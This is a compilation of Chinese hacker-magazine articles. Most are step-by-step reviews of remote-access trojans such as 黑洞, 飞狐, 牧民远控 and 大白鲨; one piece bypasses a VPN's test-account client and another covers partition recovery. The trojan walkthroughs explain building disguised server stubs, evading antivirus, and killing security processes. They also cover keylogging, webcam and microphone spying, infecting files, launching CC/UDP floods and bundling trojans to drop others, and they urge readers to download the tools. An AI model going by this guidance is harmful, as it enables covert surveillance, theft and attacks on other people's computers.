非凡VPN的测试帐号公布在 http://www.vpn123.com/freetest.php ，经过我的观察，连接的服务器和连接的用户名都是不变的，只有密码是每半小时变化一次。在虚拟机里使用专用客户端连接一次得到VPN服务器的IP地址，然后使用自己建立的VPN连接就可以连接成功了。经过测试，使用这种方法对于非凡VPN的国内、亚洲和美国的VPN都可以不用它的专用客户端连接。以下是我整理的非凡VPN的国内国外VPN服务器地址和连接时的用户名，使用时你只需要建立一个虚拟专用网络连接，去掉上边提到的那个选项，然后用我提供的VPN服务器地址和用户名，再到 http://www.vpn123.com/freetest.php 获取连接密码后进行连接就行了。


| 国家/地区 | VPN服务器IP | VPN用户名 |
|---|---|---|
| 网通 | 210.51.23.73 | test |
| 北京多线 | 121.52.208.250 | test |
| 广东省深圳电信 | 119.147.24.125 | test |
| 韩国 | 110.4.82.38 | avpn |
| 美国 | 64.56.70.93 | mvpn |

最后再告诉大家一个小技巧，由于我们使用的是测试帐号，而所有测试帐号在断开后要等待5分钟才能再次登录。如果大家确实要断开VPN连接而又不想等待5分钟的话，可以断掉别的连接，比如我使用的是ADSL拨号，直接断开ADSL的拨号连接后VPN连接也会断开，这样我们就可以马上再次连接了。


### 分区表删除如何巧妙恢复

- 1. 恢复工具的扫描技巧。一般来说，误删除文件多与刚发现自己的误操作有关，所以刚删除的文件在磁盘中的分配位置往往较靠前。可利用这一点加快恢复速度。例如运行Easy Recover后，在选定目标分区后先扫描约5%的目录树，若已找到目标可先停止扫描并进入下一步。若未找到可按进度继续扫描。注意保存扫描进度时不要放到目标分区。  
- 2. 字处理软件相关文件的恢复技巧。WPS或WORD等字处理软件常会生成临时/后备文件，可进入其安装目录查找隐藏临时文件进行恢复。在DOS状态下可去除隐藏属性并尝试改后缀为.DOC或.WPS进行识别恢复。

用FDISK命令删除硬盘分区后，表面现象像是数据全部消失，未格式化时进入硬盘会显示无效驱动器。实际上Fdisk主要是改写主引导扇区中的分区表信息，分区内数据通常未被立即改动。可参考“分区表错误”的修复思路尝试恢复分区与数据；但若已经对分区执行Format，则恢复难度会显著增加。

### 风雨涅槃，黑洞重生

痛并快乐着


“黑洞”曾经是国内非常有名的一款木马程序，但是随着时间的推移以及新版本的推出，它已经由木马程序“涅槃重生”成了一款正规的远程控制软件。今天的“黑洞”凭借着众多独特的技术，在国际的远程控制软件中牢牢占据着一席之地。下面就让我们走进“黑洞”的世界，感受一下它全新的技术特点吧。

#### 一、配置客户端

首先下载最新的黑洞2.0正式版压缩包，解压后运行“黑洞”客户端程序。新版支持包括Windows 7在内的主流系统。程序会检测系统中是否安装常见多媒体解码器；若未检测到，可按提示设置路径并完成安装。随后弹出“参数设置”窗口，在“监听端口”中填写用于服务端连接的端口（示例为默认6899），并勾选“使用默认端口”，可通过“测试”按钮查看端口是否被占用；再在“连接密码/确认连接密码”中设置服务端连接密码，用于验证服务端合法性。

最后在“远程屏幕选项”中设置屏幕监控颜色（65536色、256色、16色）。颜色越高画面越清晰，但传输速度越慢。默认勾选“移出远程桌面壁纸”可提升传输速度。设置完成后点击“确定”即可启动客户端。此前需将QQWry.Dat这个IP数据库文件复制到“我的文档\黑洞客户端V2.0”目录。


#### 二、配置服务端

由于新版黑洞已转向正规控制软件，服务端配置方式也有所不同。服务端程序可独立运行，进入“服务端配置”窗口后可选择正向连接与反向连接两种方式，通常选择“两者皆有”。反向连接支持IP地址和网页链接两种形式；随后设置上线名称、连接密码等信息，以确保客户端正常连接。


设置完成后开始服务端安装，点击“完成”后进入控制权限设置。这也是其与传统木马的主要区别：被控方可按需关闭或开放功能。在服务端设置窗口中可使用“黑洞用户安全性”与“Windows NT安全性”两种权限确认方式。可在“黑洞安全性”窗口中添加新账号，并在权限列表中设置为“全部允许”等选项，完成权限配置。

## 牧马记

在文件列表区点击鼠标右键将会弹出新建文件夹、删除文件、重命名文件等操作，也可以通过点击文件列表区上面的功能按钮来进行操作。全新的文件管理可以完美支持UNICODE，这样包括中文在内的信息都可以完整显示。如果需要上传或下载文件，可以在列表中选择一个或多个对象后，直接通过鼠标拖动就可以完成。文件传输采用了自动断点传输模式，从传输进度表中可以看到传输进程，并且文件传输也不再有大小限制，甚至支持TB级大小的文件进行传输。


#### 三、控制服务端

服务端程序设置完成后，再次打开黑洞的客户端程序。黑洞的界面简洁大方，看上去也和Radmin十分相近，非常便于用户管理操作。在“反向连接”标签中，发现远程系统已经成功连接到本机了；如果设置的是正向连接的话，在“主动连接”标签中单击右键，选择“添加主机”按钮后在弹出的窗口进行设置即可。

##### 1、屏幕监控

点击工具栏中的“屏幕控制”或“屏幕查看”命令，这两个命令都可以对远程桌面进行及时监控。无论用户选择哪一个命令，点击以后都会弹出一个设置窗口，对颜色格式等内容进行设置。程序还会提示输入帐号和密码进行确认，我们输入在“黑洞安全性”窗口中设置的信息即可。另外，“屏幕控制”命令除了监控功能，还可以通过鼠标键盘对远程桌面进行控制，而“屏幕查看”命令就只能进行桌面查看。全新的黑洞远程控制对“屏幕查看”功能进行了极大优化，在没有使用任何虚拟驱动技术的情况下，速度表现依然出色。在屏幕查看过程中，可以通过F12键切换屏幕观看模式，并可在标题栏右键菜单中切换监控模式等。

##### 2、文件管理

点击工具栏中的“文件管理”命令，连接成功后将会出现文件管理窗口。文件管理窗口的上半部分为本地磁盘目录，下半部分为远程磁盘目录，如图6。

##### 3、媒体播放

还记得先前安装的多媒体解码器吗？这是因为黑洞使用了第二代暴速传输技术，这样可以随意播放远程系统中的视频文件，并且播放效果就好像在本地进行播放一样顺畅。由于该功能的数据经过了优化和压缩，因此即使通过进度条进行任意拖动，播放器也不会有明显延迟现象。经过测试，这个播放器不仅可以支持常见的WMV、AVI、RMVB等类型格式文件，还可以支持手机使用的视频格式文件等。


### 骏马记


#### 4、语音交流

黑洞不仅在视频方面非常优秀，在语音交流方面也同样如此。点击工具栏中的“语音交流”按钮，在弹出的窗口中进行语音相关设置，点击“开始”按钮后就可以进行语音聊天了，如图8。如果觉得有必要的话可以选中“保存聊天记录到文件”，这样就可以把语音交流的信息保存到“我的文档\黑洞客户端V2.0”下了。由于这个功能使用了智能语音技术，因此可以在占用极小带宽的情况下获得极其清晰的语音效果。

#### 5、加密保护

新版本黑洞在安全性上进行了极大提升，因为它的客户端和服务端之间的数据全部使用了2048位RSA算法加密后进行传输，所以用户无需担心机密文件传输过程中被嗅探，最大限度地保护了数据安全性。这可比那些没有加密或简单加密的软件要强得多。RSA算法是第一个能同时用于加密和数字签名的算法，从提出到现在已近二十年，经历了各种攻击的考验，逐渐为人们所接受，被普遍认为是目前最优秀的公钥方案之一。

### 飞狐远程控制：小菜的又一选择

天涯衰草

在我很小的时候就非常喜欢看金庸的武侠小说，前几天在网上看到了一款名为“飞狐远程控制”的木马，使我不由得想起了小说《雪山飞狐》，感到非常亲切，于是第一时间就下载试用了这款木马的各项功能。

#### 一、配置服务端

首先运行飞狐远程控制的客户端程序，点击工具栏中的“服务端设置”按钮来配置一个测试用的服务端程序，接着在“服务器地址”栏输入服务端程序的连接地址，连接地址可以是IP地址或动态域名，然后设置服务端的启动方式。飞狐提供了“注入IE进程”和“注册系统服务”两种启动方式。配置完成后，最好点击一下“测试连接”按钮，来看看服务端程序是否可以正常连接。如果可以的话，那么直接点击“上传客户端”按钮就可以了。


在连接列表中选中上线主机，点击工具栏中的“管理主机”按钮，在弹出的“控制中心”窗口中可以看到最重要的控制命令都包括在了这里。点击窗口中的“服务信息”，通过它可以查看远程系统的硬件信息，包括CPU类型、内存信息、操作系统、分辨率等。再点击窗口中的“进程管理”命令，这样就可以查看远程系统中正在使用的进程信息。飞狐远程控制还提供了“暂停进程”“恢复进程”等命令。

#### 二、服务端功能

由于我使用的是Windows 7的测试版，因此需要将服务端程序上传到专用的虚拟机中运行，这就导致了客户端在等待了几秒钟后才弹出连接成功的提示窗口。从连接列表中可以看到服务端的IP地址、物理地址、上线时间、操作系统等信息。

“拍照”就可以记录下远程图像信息，如果不想查看了只需要点击“关闭”按钮即可。接下来点击“屏幕监控”，虽然控制栏上的命令很简单，但是已经可以进行很好的桌面控制操作了。为了更好地保证数据传输，木马默认采用的画质比较低，我们可以在“画质”列表中选择远程桌面显示的颜色像素，不用多说大家也知道像素越高则显示效果会越好。然后设置屏幕信息截取的间隔时间，木马默认是30秒进行一次屏幕刷新。点击“截取”按钮就会开始远程桌面的捕捉和查看操作了。如果要想对远程桌面进行控制，那么点击工具栏中的“控制”按钮后就可以直接通过本地鼠标进行操作了，如图4。由于控制屏幕还是利用传统的4:3比例，因此如果远程显示器是宽屏的，就会无法进行全面有效的查看操作。

现在来看看“文件管理”功能，它还可以自动获取远程系统的磁盘信息，当然也可以通过工具栏中的“刷新”命令来及时获取磁盘信息中的文件目录信息。我们选中想要查看的目录或文件进行查看，然后就可以在窗口中对文件进行管理操作了。在文件管理窗口中通过右键菜单中的命令可以执行上传、下载、打开、重命名等操作，尤其是可以一次性将多个文件或文件夹进行传输操作，如图5。文件传输操作支持断点续传，这样在没有传输完成的情况下可以下一次继续对该文件进行传输操作。由于该功能的操作界面和“我的电脑”相似，所以操作起来非常简单。

再接着要介绍的是“DOS执行”功能，点击窗口中的“字体”和“背景颜色”，这样就可以在你喜欢的颜色下进行操作了。设置完成后，在“DOS命令”输入框中输入想要执行的命令，点击后边的“发送命令”就可以执行了，如图6。不过我在测试中发现，木马对于本地的操作命令好像执行起来比较困难，而对于网络控制命令则是比较顺畅的。


### 收马记


图7

最后点击“系统服务状态”，通过该功能可以查看远程计算机中的系统服务，利用右键菜单中的“查看服务”命令，可以选择查看“系统服务”还是“驱动服务”。其中“系统服务”可以在系统的服务管理器中查看到，也就是我们通常所说的服务信息，而“驱动服务”也就是我们常说的为启动系统的硬件和软件所提供的相应支持操作。通过右键菜单中的命令可以对系统服务进行刷新、停止、暂停等操作，如图7。其中“暂停服务”可以让指定服务暂时停止运行，如果要想恢复的话点击“继续服务”就可以了。不过该窗口中并没有删除和新建服务等命令，好在这些都可以通过SC命令在刚才介绍的“DOS命令”栏中完成。此外，飞狐远程控制还可以进行批量操作，在操作窗口里选择右键菜单中的“批量管理”命令，在弹出的窗口列表中选择要进行批量管理的主机，然后在窗口下方的管理区域选择要进行的控制操作即可，如图8。在这里可以完成网页打开、文件下载、信息发送等一系列控制操作。


图8

#### 三、小结

通过全方面的设置操作，我们会发现飞狐远程控制的表现总的来说还是中规中矩的，既包括了各种常见的控制功能，也没有太多创新型功能。看来它要成为网络中的“大侠”，还需要继续修炼才行啊，不过有空的时候拿出来玩玩也不失为一种选择。

> （本文所涉及到的飞狐远程控制已收录到光盘中）

### 小菜的新选择——收羊人远控

漠原长风[B.B.E]

某日在网上闲逛时，发现了一个新木马的推广广告，这款木马名叫收羊人，目前有免费版和高级定制版（也就是收费版）两种。相信只要木马好，很快就会有破解版被公布的，本文我就以免费版来给大家进行介绍了。软件运行后的主界面如图1所示，十分简洁，打开的默认端口是6380。整个界面给人一种似曾相识的感觉，希望不是某某的修改版。要知道在黑客圈内，山寨文化也是非常流行的。我们可以通过“选项”->“创建客户端”来创建一个客户端程序，也可以通过点击工具栏中的“创建客户”图标来创建，如图2。

它的客户端和许多常用木马的服务端一样，在连接方式上除了直接连接的IP地址和端口号外，还有一个备用的中转URL设置，十分有用。接下来就是设置服务的名称。


图1


图2和描述了，其实默认的设置我感觉已经很隐蔽了，但是为了防止杀毒软件将这些默认信息作为特征码，所以我们有必要适当地进行修改。最下面则是设置释放的 DLL 的名称和版本信息（这个在上线的时候能够方便区分客户端）。当然了，设置一个连接密码也是极有必要的，大家注意到没有，“连接密码”下方的“过360安全卫士”是灰色不可选的，原因就在于我们使用的是免费版。设置好后点击“生成”就可以得到服务端程序 server.exe 了，大小只有 120 多 K，身材还是不错的。直接双击运行，几秒钟后 server.exe 就不见了，但主程序中已经有客户端上线了，如图3。


下面我们来测试一下木马的常用功能，选中上线的主机，在右键菜单中选择“主要功能”，就可以看到该木马的主要功能了，如图4。“文件管理”可谓是木马远控的最基本功能了，较之于远控的文件管理功能还是挺方便和实用的，上方显示的是本机的磁盘和文件信息，而下方则显示的是远程主机的文件信息，如图5。


“屏幕控制”功能一般，不允许用户自己根据网速来选择连接品质以及使用对方键盘和鼠标等等，如图6。关于这款木马的“键盘记录”功能测试如下，我打开了“写字板”，普通输入都可以很好地记录下来，但对于插入就无法记录了，再打开 IE 浏览器，也能完美地记录 IE 地址栏中的输入。还有就是它支持离线记录，总体感觉它的“键盘记录”功能还是挺不错的，如图7。


“远程终端”和“系统管理”功能如图8所示，但在“系统管理”功能中不能查看隐藏进程以及只能结束普通进程，这方面也是绝大多数木马的通病了。在右键菜单的“主机管理”功能中具有“卸载”、“断开”、“注销”、“重启”、“关机”等几种常见的功能。而“访问网址”有隐藏访问和普通显示访问两种，这款木马还带有一个开启3389终端的功能，在“开启3389”功能中可以看到，还具有双开的能力，这是一个亮点，十分有用，如图9。事实上，在右键菜单中还有其他一些辅助的功能，我试用了一下，也都非常好用。主要功能就介绍完了，这款木马综合来看还是很不错的，喜欢的读者可以试用一下。


图9

> （本文所涉及到的牧羊人软件已收录到光盘中）


### 远程控制之又见小猪

我的班长是宝贝

网络笨猪这款远程控制软件在去年的《黑客X档案》杂志上已经出现过，当时因为这个远控程序生成出来的服务端只有不到 3K 而闻名，但是由于作者使用的编程语言问题，使得针对它的免杀制作起来非常困难。今天我给大家带来的是一头全新的“小猪”，它是作者自上个版本后又推出的全新版本，修改了原版本中的很多 bug，连接也更稳定了。

从好友那儿要来了一个脱了壳的小猪，立马来运行看看效果，如图1。因为壳已经被脱掉了，所以生成的服务端稍大了点，从 3K 变成了 25K，如图2，但这也意味着我们可以自由地制作免杀了。为了让刚入门的小菜也尝鲜，可以不花力气地来玩转免杀的小猪，下面我就专门为小菜们指点一下。

既然要免杀，那么配置信息也是一个非常重要的环节，一番精心的设置或许就可以让你的小马免杀哦。首先我给出自己配置的信息，如图3，“基本信息”根据自己的实际情况进行设置，端口注意不要和其它程序冲突，比如 FTP 使用的 21 端口等。在“启动信息”中，“服务名”、“显示名”和“服务描述”等信息可以伪装得和其它正常的服务像一些。最重要的环节就是“扩展信息”了，这里的“EXE 文件名”和“DLL 文件名”尽量填得随意一点，避免填写 system、svchost 之类的，因为这些敏感字眼早已被杀毒软件盯上了。

对于“是否插入进程”，我建议不要选中，最后点击“确定”就能生成服务端了。我们用杀毒软件来测试一下生成的服务端，大家可以看到，刚才生成的没有经过任何处理的服务端程序，就过了瑞星、金山和 NOD32 的检测，如图4，但是如果我们选择插入进程的话，那效果可就不一样了，会全部被查杀的。

再来测试一下上线情况，如图5，说明脱壳后的小猪是完全可以正常上线的。直接在线主机上点击右键选择“打开控制窗口”就可以进行控制了，如图6，虽然功能不算太多，但全都是远程控制的核心功能。


图1


图2


图3


图4


图5


图6

“数据服务”提供了“文件管理”、“进程管理”和“服务管理”功能，如图7；“网络服务”提供了“远程 Shell”功能，如图8，而“其它服务”则提供了“屏幕查看”功能，如图9。这些功能在去年的杂志上都已经详细介绍过了，因此本文我就不再重复介绍了。


最后我来说一下它的实际应用，首当其冲的就是它娇小的体积，真是甚得人心，是捆绑挂马的必备佳品。我们再配合 6 期杂志中的调用关机函数来实现关闭所有杀毒软件的小程序用于突破主动防御，在成功控制目标主机后，再植入功能更强大的木马，也就实现了小马传大马的作用！

（本文所涉及到的小猪远程控制已收录到光盘中）

### 小菜使用手记之牧民远控

痛并快乐着


想必经常玩木马的小菜都听说过“牧民战天”这个名字吧，由他制作的一个灰鸽子修改版可是非常有名哟。不过老是修改别人的木马也没什么意思，要是自己能制作一个远程程序那才是“纯爷们”，于是一款名为“牧民远程个人管理系统”的软件就由此诞生了。本文我们就来亲身体验一下这款全新的“牧民远控”吧！

#### 一、配置服务端程序

我们从网上下载牧民远控的相关程序，解压后首先进行客户端程序的安装，这个安装过程和常见的应用程序一样。完成后双击桌面上客户端程序的图标就可以运行了。牧民远控的程序界面可以说是中规中矩，但是和常见的灰鸽子还是有很大区别的。点击工具栏中的“配置生成”命令，在弹出的窗口中就可以配置服务端了。服务端的配置非常简单，只需要设置服务端程序连接的 IP 地址即可，连接方式包括了 IP 地址、动态域名、网页链接等，如图1。最后点击“配置生成”按钮，就可以创建一个服务端程序了。


#### 二、操纵服务端程序

我们直接在本地计算机运行服务端程序，由于服务端和客户端都采用了 IOCP 模型，同时数据传输还采用了 Zlib 压缩方式，因此服务端程序的连接上线非常快。另外，服务端程序可以突破卡巴斯基、江民、瑞星等杀毒软件的主动防御，极大地增强了服务端程序的存活率。选择列表中的上线主机，通过工具栏或是鼠标右键中的命令选项，就可以进行远程控制操作了，如图2。


##### 1、文件管理

首先我们来看“文件管理”命令，该木马仍然采用了目前常见的模仿 Radmin 的文件管理窗口。其中上方的窗口显示的是本地电脑磁盘中的信息，而下方的窗口显示的是远程主机磁盘中的信息，通过鼠标右键中的命令，我们可以对本地和远程系统的文件进行新建、删除、重命名、排序等操作。如果需要进行文件的传输，无论是上传还是下载，只需要选择相应的文件后通过鼠标直接拖动就可以完成，如图3。


图3

文件传输采用了自动断点传输模式，从传输的进度表中可以看到传输的进程。如果大家认为只有这些常见的功能，那么就大错特错了。注意观察右键菜单中的控制命令，我们会看到一个名为“感染文件”的命令，通过它就可以把服务端程序的代码植入到指定的可执行文件或者其它文件中，这样当用户一旦运行了这些文件，服务端程序就会再次植入到系统中了。还记得熊猫烧香在系统中的传播吗，实际上就是通过这种方式进行传播的。

##### 2、媒体监控

“屏幕监控”也是远程控制程序不可或缺的一项主要功能，当点击“屏幕监控”后，在弹出的窗口中就可以立即显示出远程主机的实时桌面信息了。由于该功能完全采用了汇编语言进行编写，算法比最小矩形法或者隔行扫描法更快，因此达到了目前最新版黑洞远程控制的屏幕捕捉速度，如图4。另外通过标题栏右键中的命令，还可以进行常见的屏幕控制，以及把当前屏幕的实时内容保存到硬盘中，还可以设置远程主机的屏幕黑屏，或者锁定远程主机的键盘和鼠标不让其操作等。


图4

“视频监控”和“音频监听”也是目前常见的远程控制功能，比如利用“视频监控”命令，就可以对远程主机的摄像头进行视频监控，当然也可以把获取的信息保存到硬盘中。视频传输进行了选择性的压缩，强大的 H.263 算法加上 100:1 的压缩率，可以让数据传输更加流畅和清晰。如果远程主机没有连接摄像头的话，那么这个功能将无法正常地启动运行了。“音频监听”命令可以获取远程主机的声音信息，由于数据采用了 Gsm6.10 技术进行压缩传输，因此获取到的声音就和在自己身边一样。如果勾选上窗口中的“发送本地语音到远程”，我们还可以把本机发出的声音传输到远程系统中播放出来，如图5。


图5

##### 3、键盘记录

“键盘记录”命令就不用多介绍了吧，主要是用于键盘记录操作的，启动该功能后，程序就会立即开始记录操作。不过经过测试发现，牧民远控的键盘记录功能只能准确记录英文信息，记录的灵敏度也是很高，但是对于中文信息的记录则是无能为力的，如图6。利用右键菜单中的命令我们可以把这些记录下来的信息保存到本机上，以留待日后查看。另外，牧民远控还支持离线的键盘消息记录，这样当下次连接成功后就可以立即进行查看了。


图6

##### 4、系统管理

为了更好地对远程主机的程序进行管理，牧民远控采用了进程和窗口两种管理方式，这两个管理功能看似相重合，但实际上有些功能却是无法取代的，比如很多系统进程就没有对应的窗口。选择鼠标右键中的“系统管理”命令，在弹出的窗口中选择“进程管理”，就可以查看远程计算机当前的进程信息，如图7。

通过右键中的“刷新”命令，还可以获取最新的进程信息，如果发现有杀毒软件或者防火墙，就可以通过“结束”命令来关闭指定的进程，从而达到保护木马服务端的目的。另外通过“窗口管理”功能，还可以对窗口进行有效的管理，在列表中可以看到每个窗口对应的进程信息，点击“刷新”命令就可以获得最新的窗口信息，同样如果发现了不需要的窗口消息，选择“结束”命令就可以关闭指定的窗口了。

除此之外，牧民远控还包括了电子子弹、端口映射、网络代理等功能，其中电子子弹包括了 CC 攻击和 UDP 攻击两种。CC 攻击需要在窗口中设置攻击的网址、端口和网页，大家按照程序给出的格式要求填写对应的信息就可以了，UDP 攻击则只需要填写攻击的 IP 地址和端口即可，如图9。网络代理功能支持 IE 代理、Sock4 和 Sock5 代理，我们只需要填写网络代理的端口号，服务端就会自动进行对应的代理设置了。端口映射的设置比较麻烦，要同时设置双方的 IP 地址和端口才行。上面的这些功能在设置错误后，服务端程序将会给出错误信息的提示，这时就必须重新进行设置才可以使用了。


图7


图9

### 5、其它控制

在牧民远控右键菜单中的“其他功能”中，还包括了下载启动、清除日志、弹窗提示和域名欺骗等功能。我们主要来看一下“下载启动”和“域名欺骗”这两个功能，其中“下载启动”也就是我们常见的下载并运行功能，只不过是在系统重新启动后才运行的，在文件地址框中输入文件链接后，点击“OK”按钮即可。而“域名欺骗”功能则是通过修改系统的 Hosts 文件，来实现域名欺骗的效果，在输入框中输入“127.0.0.1 www.xxx.com”，就可以对域名 www.xxx.com 进行欺骗了，如图8。


图8

##### 6、自我保护

服务端程序可以自动检测 CPU 的使用率，从而调整自己的工作线程，以使服务端程序能够稳定高效地运行。另外，牧民远控还可以定时检测服务端的运行状况，以防止服务端程序意外掉线。服务端程序以 svchost 系统服务来进行启动，同时拥有远程守护线程进行防护，这样在进程被结束后就可以快速得以恢复，即便是被发现，但在清除的时候也会显得非常困难。

#### 三、总结

经过简单的使用后我们发现，牧民远控作为一款全新的国产木马，不仅吸取了主流木马的特性，还衍生出了很多自己的相关控制特性，这样就可以获得更好的控制体验了。我想牧民远控以后会随着不断的更新，越来越多地加入其它全新的控制命令，从而使得功能和操作性变得越来越好。如果大家觉得这款木马程序还不错，那么就赶紧下载一个来感受一下吧！

> （文章中涉及到的牧民远控程序，已经收录在光盘中）

### 绿色兵团专用远程控制程序

Michael

玩过木马的朋友都知道，木马只要被公布出来也就意味着被查杀，因此解决的方法就是对生成的服务端进行免杀，这也是目前免杀技术非常流行的原因所在。如果大家想系统地学习黑客免杀技术的话，我推荐购买《黑客X档案》出版的《黑客免杀入门》一书。只可惜小菜我水平非常有限，还不会制作免杀，于是只好寻找一些好用的新木马。这天碰巧在网上看到了一款新的远程控制软件——绿色兵团专用远程控制，于是就下载试用了一下。

#### 一、配置服务端

是否启用托盘图标，是否禁用欢迎窗口，如图2。再点击“设置服务端”，程序提供了三种上线方式，分别是“反弹连接”、“HTTP 上线”和“域名解析”，如图3。因为我是在本地演示的，所以就在“反弹连接”中填的 127.0.0.1。在实际应用时，大家也可以填写自己的公网 IP 地址或者申请的动态域名。在下方还有一个加密选项，我们也可以勾选上，这样生成服务端程序后，卡巴和 NOD32 都不报毒了（我只测试了这两款杀毒软件）。


#### 二、服务端控制

直接运行服务端程序，远程主机很快就上线了，点击“文件浏览”后，就会打开文件浏览窗口，点一下左上角的“刷新”按钮就会列出磁盘信息，选择想要查看的磁盘，就会打开该磁盘中的目录和文件信息了，就像在本地操作一样。在文件上点右击，在弹出的右键菜单中就会看到远程运行、文件改名、设置文件属性等功能，如图4。


窗口下方的“远程 CMD 命令”提供了一个命令行下的管理窗口，输入命令后点击“发送”就会执行了。再来看“进程管理”，点击“取远程进程列表”就会列出远程主机当前的进程信息，通过右键中的命令就可以结束指定的进程了。点击“服务端信息”，就可以获取远程主机的相关信息。“查看服务”可以对远程计算机上的服务进行刷新、停止、暂停、继续，以及选择是查看驱动级别的还是系统级别的服务，如图5。“窗口管理”可以列出上线主机的所有窗口，并且可以对指定的窗口进行锁定、关闭、最小化等操作。“键盘记录”则可以记录下对方击键的操作，我们可以选择想要记录的程序，这样更有针对性。


“捕捉屏幕”功能可以监控远程主机当前的桌面，而“捕捉视频”功能可以对远程主机的摄像头进行监控（当然，这需要远程主机有视频设备才行）。在窗口下方的“其他设置”里还包括了一些别的功能，比如远程关机、远程注销、隐藏桌面图标、隐藏任务栏、弹出光驱、关闭显示器、窗口透明、鼠标乱动、锁键盘、关联文件等（可以恶作剧用），如图6。“HTTP 下载文件”可以让远程主机下载指定的文件并运行，有正常运行和隐藏运行；而“远程打开浏览器”则可以让远程主机打开指定的网页。

窗口下方中的“即时通信”功能可以和肉鸡一起聊天，这个远控程序除了上面说的恶搞功能外，还有一个亮点就是它的局域网操作，可以读取工作组、管理共享、内网端口检测等，如图7。


总的来说，这款远控程序就为大家介绍到这儿，至于它的详细功能，就请大家慢慢使用吧。

（文字中涉及到的绿色兵团专用远程控制程序，已经收录在了光盘中）

### 绝非山寨木马的“大白鲨远控”

天涯衰草


不知从什么时候开始，“山寨”这个词在国内突然火了起来，不仅有山寨手机、山寨相机、山寨笔记本电脑等，现在连网络中也出现了很多山寨软件。就以大家常见的远程控制木马来讲，一些作者只是简单地修改了别人的源代码，换个名字，就自称是自己原创的木马程序。今天我就给大家介绍一款绝非山寨木马的“大白鲨远控”。

#### 一、服务端的配置

首先我们从网上下载最新版的“大白鲨远控”，解压后运行木马的主程序就可以看到它的操作界面了。这时可能会有一些读者感到非常疑惑，因为“大白鲨远控”的界面和灰鸽子太像了。但事实上我们使用程序修改软件，分别载入这两款木马的主程序文件，通过对比就可以发现它们之间完全不同，因为“大白鲨远控”并不像灰鸽子那样使用了大量的控件。好了，题外话就不多说了，配置一个服务端程序才是最重要的。

点击工具栏中的“配置程序”按钮，首先在“基本设置”中设置连接地址等信息。“大白鲨远控”提供了两个网络连接设置，这样可以避免只使用一个连接失效而致使肉鸡丢失的情况发生。接着在“连接端口”中设置服务端的连接端口，另外还需要设置一个服务端的“备注信息”，如图1。

接下来选择“高级设置”选项，其中的“注入进程”、“安装目录”、“安装名称”等信息，目前我们都还无法进行相关的自定义设置，所以我们主要根据自己的需要来选择是采用 ActiveX 启动还是服务项启动就行了，如图2。最后我们还可以在“图标设置”中选择一个服务端程序对应的图标，服务端程序配置完成后，点击“生成服务端”按钮就可以成功创建服务端了。

#### 二、控制功能演示

我们在本地电脑中运行木马的服务端程序，可以看到，“大白鲨远控”的连接速度还是很快的，在上线列表中也可以看到远程系统的相关信息，如图3。选中列表中的远程服务器，通过工具栏中的命令以及功能标签中的命令，就可以对远程计算机进行相应的控制操作了。


##### 1、屏幕控制

点击工具栏中的“屏幕监控”按钮，在弹出的窗口的正中……

### 驭马记

间就会出来一个屏幕控制工具栏，我们既可以根据自己的需要进行设置，也可以按照软件默认的设置来进行控制。接着点击工具栏中的“启动屏幕”按钮，就可以在窗口中查看到远程桌面的信息了。“大白鲨远控”对于屏幕控制的传输速度比较一般，但是捕捉的屏幕效果还是非常出色的。点击工具栏第二排的“鼠标控制”按钮，就可以在截获的屏幕上直接进行鼠标的控制操作了，如图4。除此之外，这个木马还提供了“屏幕关闭”的功能，可以通过打开系统的屏幕保护，或者强制关闭显示器的电源来实现。不过可惜的是，该木马暂时还无法对捕捉的信息进行保存，即使是保存为图片信息也无法做到。

另外，如果我们想从远程电脑中下载文件的话，就可以选中文件后点击工具栏中的“文件下载”，在弹出的窗口中设置文件的保存目录，然后在“下载文件”窗口查看进度。虽然“大白鲨远控”默认并不支持多文件的操作，但是我们却可以利用它自带的文件压缩功能将多个文件压缩成一个压缩包后再进行传输操作。通过鼠标选中要压缩的文件或文件夹，选择右键菜单中“WinRAR”中的命令就可以了，然后再进行文件传输操作就方便多了。


图6


图4

##### 2、文件管理

远程控制软件最重要的一个功能，就是对远程计算机系统进行文件管理。点击窗口中的“文件管理”，“大白鲨远控”的文件管理和我们常见的资源管理器窗口一模一样，因此对于普通用户来说不需要任何的适应过程。点击“远程电脑”前面的加号，就会展开远程电脑中所有的磁盘，任意选择其中的一个磁盘分区，然后我们就可以方便地进行文件管理了。在磁盘分区中选择要管理的文件或文件夹（不过“大白鲨远控”只能对一个文件进行操作），然后点击文件管理工具栏中的命令，就可以进行复制、粘贴、删除等常见的操作了，而且文件的运行方式，也包括“以后缀类型运行”和“以EXE类型运行”两种，如图5。


图7

##### 3、进程管理

在测试了“大白鲨远控”主要的两项功能后，我们再来看看该木马的其它控制功能。点击窗口中的“进程管理”，然后点击右侧的“刷新进程”按钮，这样才可以获得远程系统的进程信息，如图7。从列表中选择想要结束的软件进程，点击“结束进程”按钮就可以关闭了。有的程序还会有进程保护功能，这时就可以点击“结束父进程”按钮，这样才可以将该程序的所有进程一次性关闭。


图5

##### 4、服务管理

接下来选择窗口中的“服务管理”，就可以查看到远程系统中的服务信息了。选择右键菜单中的“刷新服务”命令，通过启动、停止、重启、删除等控制命令，就可以对系统中的服务进行管理了，如图8。如果在删除服务的时候出现了错误，那么有可能是该服务正在使用，这时可以先结束服务所使用的进程，或者暂停这个系统服务的运行，然后再进行删除就可以了。

##### 5、窗口管理

选择木马主窗口中的“窗口管理”，通过其中的命令可以对远程系统的窗口进行控制。同样还是点击右侧的“刷新窗口列表”按钮，这样就可以在列表中获得窗口消息了。接着在功能列表中选择要执行的命令，比如隐藏窗口、最大化最小化、禁用窗口关闭按钮等，然后点击“执行”就可以成功地进行操作了，如图9。另外该木马还包括了一个“关闭窗口（包括父窗口）”命令。


图8

### 6、其它功能

除了常见的控制功能外，“大白鲨远控”还带了很多其它的功能，包括查看剪贴板中的内容以及架设相关的HTTP代理服务器等等。当我们点击“查看剪贴板字符串”按钮后，就可以在窗口中查看到对应的信息内容了，如图10。另外木马还提供了很多恶作剧功能，比如锁定鼠标的移动、鼠标左右键的交换、隐藏桌面图标等。


图10

至今，我测试了半天也不知道如何进行操作，这里就请大家慢慢地去体会操作吧。


图9

#### 三、总结

通过对“大白鲨远控”的测试使用，可以看到该木马不仅保留了普通常用的控制功能，还在这些功能上有很多非常独特的创新。但是作为全新推出的一款木马程序，“大白鲨远控”自身也存在很多的问题，比如文件传输非常缓慢、键盘记录功能也非常弱等。所以也希望“大白鲨远控”随着以后的升级，可以做得越来越好，并且让更多的用户能够喜欢它。

（文中所涉及到的大白鲨远控1.2已收录到光盘中）

### 无色无味的Xrat木马

痛并快乐着

